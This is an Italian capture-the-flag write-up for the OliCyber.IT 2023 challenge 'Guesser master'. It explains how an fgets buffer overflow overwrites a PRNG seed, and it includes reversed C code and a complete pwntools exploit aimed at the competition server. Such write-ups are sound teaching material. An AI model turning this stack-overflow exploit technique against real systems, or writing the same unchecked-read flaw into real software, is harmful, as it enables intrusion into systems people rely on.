 # OliCyber.IT 2023 - Competizione Nazionale

## [binary] Guesser master (32 risoluzioni)

La challenge è un normale binario linkato dinamicamente. All'esecuzione il binario chiede un input, lo confronta con dei dati segreti apparentemente generati casualmente ad ogni esecuzione. Se le stringhe sono uguali, il binario stampa la flag, altrimenti chiude la connessione.

### Soluzione

I dati sono effettivamente generati casualmente, se andiamo a fare un po' di reverse engineering del binario. Vediamo che nel main viene chiamata la funzione `srand` della libc, che setta il seed del PRNG della libreria standard del C. Il seed viene settato ad una variabile locale che era stata precedentemente popolata con dei byte casuali letti effettivamente da `/dev/urandom`, usando una funzione che in C, dopo un po' di reverse engineering, si può scrivere

```c

void rand32(unsigned int *r) {
  FILE *f = fopen("/dev/urandom", "r");
  unsigned long rv = fread(r, sizeof(*r), 1, f);
  if (rv != 1) {
    fprintf(stderr, "Error reading from /dev/urandom. Please contact a gabibbo");
    exit(1);
  }
  fclose(f);
}
```

Sembra quindi che i dati siano davvero random. Non c'è speranza quindi di indovinarli utilizzando qualche trucco crittografico. Tuttavia notiamo però che l'ordine in cui vengono eseguite le azioni è il seguente:

```c
  rand32(&seed);
  printf("input: ");
  fgets(password, 0x200, stdin);
  srand(seed);

  for (int i = 0; i < 0x100-1; i++) {
    g_password[i] = rand() % 0x19 + 0x41;
  }

```

Quindi il seed random viene settato dopo che noi abbiamo inserito il nostro input, cosa che è abbastanza strana. In effetti, controllando la dimensione delle variabili, possiamo notare che la `fgets` non scrive solo su `password`, ma scrive anche oltre, in quanto la variabile `password` è più corta di 0x200 caratteri. Utilizzando per esempio `Edit stack frame` di ghidra, possiamo notare come dopo la variabile password ci sia proprio il seed random che è appena stato pescato da `/dev/urandom`.

La strategia è quindi:

- sovrascrivere il seed random con un valore noto
- calcolare in parte la password che genererebbe questo seed
- dare la password corretta al programma

Per essere ancora più pigri, possiamo eseguire localmente il programma usando gdb, fornire l'input che sovrascrive il seed random ed esaminare la memoria in cui è salvata la password che dobbiamo copiare. In questo modo non dobbiamo nemmeno capire l'algoritmo che genera la password.

### Exploit

```python
#!/usr/bin/env python3

from pwn import ELF, context, process, flat, p64, args, remote
import os
import logging

logging.disable()

exe = context.binary = ELF(os.path.dirname(os.path.realpath(__file__)) + '/guesser_master')
HOST = os.environ.get("HOST", "guessmaster.challs.olicyber.it")
PORT = int(os.environ.get("PORT", 35006))


io = process([exe.path], env={"FLAG": "flag{test}"}) if args.LOCAL else remote(HOST, PORT)
# ui.pause()
io.sendlineafter(b"input: ", flat({
    0x0: b"ILCPSKLRYVMCPJNBPBWLLSREHFMXRKECWITRSGLREXVTJMXYPUNBQFGXMUVGFAJCLFVENHYUHUORJOSAMIBDNJDBEYHKBSOMBLTOUUJDRBWCRRCGBFLQPOTTPEGRWVGAJCRGWDLPGITYDVHEDTUSIPPYVXSUVBVFENODQASAJOYOMGSQCPJLHBMDAHYVIUEMKSSDSLDEBESNNNGPESDNTRRVYSUIPYWATPFOELTHROWHFEXLWDYSVSPWLKFBLFD\x00",
    0x100: p64(0),
}))
io.recvuntil(b"Flag: ")
flag = io.recvline().decode().strip()
print(flag)
io.close()

```
